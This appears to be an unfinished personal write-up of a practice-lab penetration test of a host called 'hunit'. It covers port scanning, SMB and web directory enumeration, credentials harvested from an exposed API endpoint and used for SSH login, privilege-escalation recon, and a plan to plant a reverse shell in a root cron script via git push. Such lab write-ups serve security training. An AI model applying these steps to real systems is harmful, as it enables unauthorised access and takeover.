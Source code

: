 ### Enumeration
```
IP=192.168.163.125
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p8080,43022,12445,18030 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 8080
	- http-proxy
	- nc -nv $IP 8080
		- http-alt
- 43022
	- OpenSSH 8.4 (protocol 2.0)
	- nc -nv $IP 43022
		- SSH-2.0-OpenSSH_8.4
- 12445
	- Samba smbd 4.6.2
	- nc -nv $IP 12445nc -nv $IP 12445
		- unknown
- 18030
	- Apache httpd 2.4.46 ((Unix))
	- nc -nv $IP 18030
		- unknown
### Foothold
- 12445
	- smbclient -N -L //$IP -p12445
		- Login successful
		- shares
			- Commander
			- IPC$
	- nmap --script smb-vuln* -p12445 -Pn $IP
		- Not running the scripts
- 8080
	- Default landing page
		- ![[Pasted image 20240718101334.png]]
		- ![[Pasted image 20240718101347.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP:8080
			- /api
		- dirsearch -u http://$IP:8080/api
			- /api/article
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
			- /api
				- ![[Pasted image 20240718101726.png]]
				- /api/article
					- Same error page
				- /api/
					- ![[Pasted image 20240718101850.png]]
				- /api/article/
					- ![[Pasted image 20240718102116.png]]
					- Username: password
						- jvargas:OuQ96hcgiM5o9w
						- jwinters:KTuGcSW6Zxwd0Q
						- jsanchez:d52cQ1BzyNQycg
						- rjackson:yYJcgYqszv4aGQ
						- Checked through crackstation  -  not found
						- base64 -d  invalid format
						- hashid 'OuQ96hcgiM5o9w'
							- unknown
				- /api/user/
					- ![[Pasted image 20240718102437.png]]
					- Username:password
						- rjackson:yYJcgYqszv4aGQ
						- jsanchez:d52cQ1BzyNQycg
						- dademola:ExplainSlowQuest110
							- ssh dademola@192.168.163.125 -p 43022
								- Successful
						- jwinters:KTuGcSW6Zxwd0Q
						- jvargas:OuQ96hcgiM5o9w
	- Vulnerability scan
		- nikto -h http://$IP
- 18030
	- Default landing page
		- ![[Pasted image 20240718101321.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- dademola
	- id
		- uid=1001(dademola) gid=1001(dademola) groups=1001(dademola)
	- su root
		- ExplainSlowQuest110  - failed
	- sudo -l
		- sudo: command not found
	- uname -a
		- Linux hunit 5.9.4-arch1-1 #1 SMP PREEMPT Wed, 04 Nov 2020 21:41:09 +0000 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- dademola
		- git
	- User directory
		- .gradle
		- .kotlin
			- daemon
				- empty
		- blog.jar
		- shared
			- Alot of .kt files we have read over
	- netstat -ano
		- Active ports
			- 8080 connects to alot of ports
				- 192.168.45.195:33832
	- /git-server
		- move to user dir
		- git clone file:///git-server/
		- backups.sh
			- placeholder bash script. Can probs input rev shell then push to master branch
			- ![[Pasted image 20240718112523.png]]
		- Setup git account
			- ![[Pasted image 20240718112539.png]]
		- Supposed to clone to attack box then push it with GIT_SSH_COMMAND
	- linpeas
		- wget does not work over 80, 8000, 21, 445, 9999
		- port 12445 Works for file transfer
		- Possible Exploits
			- none
		- Interesting Files
			- Cron
				- `*/2 * * * * /root/pull.sh`
				- `*/3 * * * * /root/git-server/backups.sh`
			- Ssh
				- /home/git/.ssh/authorized_keys
				- /home/git/.ssh/id_rsa.pub
				- /home/git/.ssh/id_rsa
					- ssh -i id_rsa root@localhost -p 43022
						- needs password
					- ssh -i id_rsa git@localhost -p 43022
						- launches into git shell
			- /etc/httpd/conf/httpd.conf
		- samba running as root
### Credentials
- dademola:ExplainSlowQuest110
### Lessons Learned